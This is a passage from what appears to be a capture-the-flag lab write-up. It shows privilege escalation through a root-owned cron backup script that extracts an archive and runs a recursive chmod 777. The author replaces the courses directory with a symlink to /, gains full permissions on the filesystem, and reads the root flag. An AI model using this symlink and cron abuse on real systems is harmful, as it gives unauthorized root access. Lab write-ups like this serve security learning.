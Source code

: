```console
./tmp/courses:
total 4
drwxrwxrwx 2 root root 4096 Jun 27  2018 algebra

./tmp/courses/algebra:
total 4
-rwxrwxrwx 1 giovanni giovanni 109 Jun 27  2018 answersAlgebra
```

Backup script was found in the location at `/usr/bin/backup.sh`. 

```console
giovanni@teacher:~/work/tmp$ ls -la /usr/bin/backup.sh 
-rwxr-xr-x 1 root root 138 Jun 27  2018 /usr/bin/backup.sh
```

```bash
giovanni@teacher:~/work/tmp$ cat /usr/bin/backup.sh 
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

Some `tar` helper here:

```
-c: create a new archive
-z: filter the archive through gzip
-v: verbosely list files processed
-x: extract files from an archive
-f: use archive file or device ARCHIVE 
```

So the `backup.sh` script is owned by `root` and running the above script. Basically, it moves to `/tmp` and extract the `backup_courses.tar.gz` and `chmod` everything to `777` (= full permission). Let's remove the `courses/` directory and create a symlink to `/`.

```console
giovanni@teacher:~/work/tmp$ rm -rf courses/
giovanni@teacher:~/work/tmp$ ln -s / courses
```

<b>root.txt</b>

After the cronjob runs again, we will have a full `777` permission to `/` directory and read `root.txt` flag.

```console
giovanni@teacher:~/work/tmp$ cat /root/root.txt
4f3a ***REDACTED*** 1209
```

Thanks for reading!

